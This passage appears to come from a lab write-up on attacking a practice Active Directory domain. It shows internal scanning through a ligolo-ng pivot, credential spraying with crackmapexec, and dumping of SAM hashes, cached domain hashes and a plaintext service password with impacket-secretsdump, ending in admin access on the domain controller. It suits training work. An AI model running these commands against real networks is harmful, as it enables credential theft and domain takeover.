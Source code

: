 

## Internal Access

```
# with active ligolo-ng
nmap -sT 192.168.98.30
```

<figure><img src="../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

### Credentials logon trying

We can use the credentials found to try the access to Windows machine discovered.

```bash
proxychains crackmapexec smb $TARGET_IP -u $USER -p $PASS

# with ligolo
crackmapexec smb 192.168.98.30 -u john -p "User1@#$%6"
```



### Enumeration with credentials in AD machine

```bash
impacket-secretsdump 'john@192.168.98.30'
> User1@#$%6

*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:69865e966bb089639e9b1c7f719427fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:169a376cbed3e83e5ea8eec2d248ce0c:::
[*] Dumping cached domain logon information (domain/username:hash)
CHILD.WARFARE.CORP/john:$DCC2$10240#john#9855312d42ee254a7334845613120e61: (2025-01-17 14:47:56)
CHILD.WARFARE.CORP/corpmngr:$DCC2$10240#corpmngr#7fd50bbab99e8ea7ae9c1899f6dea7c6: (2025-01-21 11:35:46)

[*] _SC_SNMPTRAP 
corpmngr@child.warfare.corp:User4&*&*
```

```bash
crackmapexec smb ad_hosts.txt  -u john -p 'User1@#$%6'

SMB         192.168.98.120  445    CDC              [+] child.warfare.corp\john:User1@#$%6 
SMB         192.168.98.30   445    MGMT             [+] child.warfare.corp\john:User1@#$%6 (Pwn3d!)

crackmapexec smb ad_hosts.txt  -u corpmngr -p 'User4&*&*'

SMB         192.168.98.30   445    MGMT             [+] child.warfare.corp\corpmngr:User4&*&* 
SMB         192.168.98.120  445    CDC              [+] child.warfare.corp\corpmngr:User4&*&* (Pwn3d!)

```
